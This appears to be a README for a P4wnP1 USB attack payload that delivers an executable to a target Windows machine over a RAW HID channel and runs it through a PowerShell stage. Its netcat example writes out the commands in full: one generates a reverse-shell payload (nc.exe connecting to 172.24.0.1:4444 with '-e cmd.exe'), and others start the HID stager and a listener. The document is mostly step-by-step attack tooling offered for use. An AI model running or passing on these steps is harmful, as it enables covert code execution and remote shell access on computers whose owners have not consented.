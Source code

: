 # Deliver and Execute

## Description

Use P4wnP1 RAW HID channel to deliver and execute an Executable file using poershell

The **DeliverAndExec.py** Takes an Executable file, convert it to base64 and creates the powershell payload **Stage2.ps1** which will be delivered to the target machine via P4wnP1 RAW HID channel.

## DEMO

![](https://raw.githubusercontent.com/NightRang3r/P4wnP1-A.L.O.A.-Payloads/master/RAW%20HID%20Attacks/DeliverAndExecute/deliver.gif)

## Instructions (NETCAT Example)

- Using the P4wnP1 web interface set P4wnP1 as Keyboard and RAW HID
- SSH to P4wnP1 AP IP address
- Copy DeliverAndExec.py to `/usr/local/P4wnP1/legacy/`
- Generate a payload: `python2 DeliverAndExec.py /usr/share/windows-binaries/nc.exe out.exe "172.24.0.1 4444 -e cmd.exe"`
- Make sure the **Stage2.ps1** file is in the `/usr/local/P4wnP1/legacy/` directory
- Start the RAW HID Listener nad netcat listener

  - You can use the **DeliverAndExec.sh** which will start the RAW HID listener, netcat listener and execute the wifi_covert_channel.js hidscript (made for the netcat example) or do it manually:
  - `hidraw=$(P4wnP1_cli usb get device raw)`
  - `python2 /usr/local/P4wnP1/legacy/hidstager.py -s -i  /usr/local/P4wnP1/legacy/Stage2.ps1 -o $hidraw &`
  - `netcat -lvp 4444`

- Using the P4wnP1 web interface Execute the **wifi_covert_channel.js** HIDscript
